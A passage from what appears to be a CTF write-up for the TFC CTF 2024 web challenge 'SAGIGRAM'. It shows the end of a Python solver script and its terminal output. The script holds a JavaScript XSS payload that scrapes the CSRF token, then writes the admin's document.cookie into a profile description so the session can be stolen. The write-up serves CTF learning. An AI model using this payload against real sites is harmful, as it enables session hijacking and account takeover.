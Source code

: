 ```python

        self.sendFriendRequestToAdmin()
        flag = self.getAdminProfile()
        if flag:
            print(f'[+] We got the flag: "{flag}"!')

if __name__ == '__main__':
    targetBaseUrl = 'http://challs.tfcctf.com:30327'
    solver = Solver(targetBaseUrl)

    javascriptPayload = '''\
(async () => {
  // get the CSRF token
  const response = await fetch("/edit_profile");
  const responseText = await response.text();

  const regexPatternToFindCsrfToken = /<input id="csrf_token" name="csrf_token" type="hidden" value="([^"]*)"/;
  const match = responseText.match(regexPatternToFindCsrfToken);
  const csrfToken = match[1];

  // update the profile description with the cookie
  var formData = new FormData();
  formData.append("csrf_token", csrfToken);
  formData.append("description", document.cookie);
  
  var fileContent = new Blob(["anything"], { type: "image/png" });
  formData.append("picture", fileContent, "anything.png");
  
  fetch("/edit_profile", {
    method: "POST",
    body: formData
  });
})();\
'''
    solver.solve(javascriptPayload)
```

> Note: For better LLM accuracy, I used the font "Arial" from [this GitHub repository](https://github.com/JotJunior/PHP-Boleto-ZF2/blob/master/public/assets/fonts/arial.ttf)  

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SAGIGRAM)-[2024.08.05|22:22:40(HKT)]
└> wget https://github.com/JotJunior/PHP-Boleto-ZF2/raw/master/public/assets/fonts/arial.ttf
[...]
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SAGIGRAM)-[2024.08.05|22:22:40(HKT)]
└> python3 solve.py
[*] Registering a new account...
[+] A new account has been registered! Username: "sdhwpywvmi", password: "lwlaskkfcz"
[*] Logging in as user "sdhwpywvmi" with password "lwlaskkfcz"...
[+] Logged in as user "sdhwpywvmi"!
[*] Uploading JavaScript file with payload:
(async () => {
  // get the CSRF token
  const response = await fetch("/edit_profile");
  const responseText = await response.text();

  const regexPatternToFindCsrfToken = /<input id="csrf_token" name="csrf_token" type="hidden" value="([^"]*)"/;
  const match = responseText.match(regexPatternToFindCsrfToken);
  const csrfToken = match[1];

  // update the profile description with the cookie
  var formData = new FormData();
```